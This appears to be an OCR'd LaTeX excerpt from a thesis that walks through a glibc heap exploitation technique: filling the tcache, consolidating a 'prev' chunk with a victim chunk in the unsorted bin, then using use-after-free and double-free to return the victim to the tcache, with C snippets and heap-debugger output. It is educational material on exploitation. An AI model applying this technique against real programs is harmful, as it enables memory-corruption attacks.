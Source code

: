 \documentclass{masterthesis}
\begin{document}
The next step is to define a chunk to merge ‘prev’, and define the victim ‘a’, also, we define a small chunk to prevent merge chunks with the top chunk after free. 

\begin{lstlisting}[language=c,frame=tlrb]
intptr_t *prev = malloc(0x100);
intptr_t *a = malloc(0x100);
malloc(0x10);
\end{lstlisting}

As we mention, we need to fill up tcache, so , we perform the free function on the 7 chunks, as the result, heap manager force to use the unsorted bin and other bins:

\begin{lstlisting}[language=c,frame=tlrb]
for(int i=0; i<7; i++){
    free(x[i]);
  }
\end{lstlisting}

Now the tcahe is full. We perform the free function on the ‘prev’ and ‘a’.

\begin{lstlisting}[language=c,frame=tlrb]
free(a);
free(prev);
\end{lstlisting}

The result of the above is to consolidate the ‘prev’ chunk with the victim ‘a’. Attention to the size and the address of the chunk :

\begin{lstlisting}[language=c,frame=tlrb]
Before:
unsorted_bins[0]: fw=0x555555559b10, bk=0x555555559b10
Chunk(addr=0x555555559b20, size=0x110, flags=PREV_INUSE)

After
unsorted_bins[0]: fw=0x555555559a00, bk=0x555555559a00
Chunk(addr=0x555555559a10, size=0x220, flags=PREV_INUSE)
 \end{lstlisting}

\begin{figure}[h!]
  \caption{LIBC}
\end{figure}

In the next step with the help of UAF and double-free attack we put back the victim in the tcach

\begin{lstlisting}[language=c,frame=tlrb]
malloc(0x100);
free(a);
\end{lstlisting}
\end{document}
